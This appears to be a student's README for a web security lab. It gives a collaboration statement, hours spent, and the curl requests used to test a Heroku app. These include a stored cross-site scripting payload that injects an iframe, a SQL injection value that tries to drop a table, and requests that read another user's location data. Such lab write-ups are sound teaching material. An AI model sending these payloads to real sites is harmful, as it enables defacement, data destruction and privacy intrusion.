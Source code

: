 Project by Katherine Wadhwani

Correctness and Troubleshooting:
To the best of my understanding, all parts of this project have been implemented correctly. I did, however, find it difficult to understand what I modifications I vs others had made, as the website kept changing.

Collaboration:
I discussed this project with Thomas, Murt, and Dan. I was struggling and they kindly helped explain where I was going wrong. In particular, Thomas bettered my understanding of how to preform a SQL injection. All ideas, however, were my own.

Hours to Complete:
I took about 8 hours to complete the lab.

Note: While we were not particularly asked to show our curl requests for our Security and Privacy Assessment report, I wanted to include them. Putting them in the html document proved difficult, as some were interpreted as script. For these reasons, I have included them here.


<b>Cross-Site Scripting </b>
  - curl -d "username=<script>var b=document.getElementsByTagName('body')[0],i=document.createElement('iframe');i.src='https://www.google.com/embed/the-simpson-s-home-
    interactive';i.style.width='50%';i.style.height='50%';i.frameBorder='0';i.allow='gamepad *';b.insertBefore(i,b.firstChild);</script>&lat=34342.944&lng=943432.32345" 
    -X POST https://jordan-marsh.herokuapp.com/rides
  
<b>SQL Injection</b>  
   -curl -d "username= whatever; DROP vehicles;&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/update

<b>General Privacy</b>
  - curl -d "username=a&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/rides
  - https://jordan-marsh.herokuapp.com/vehicle.json?username=J1r5pEAO
  
  
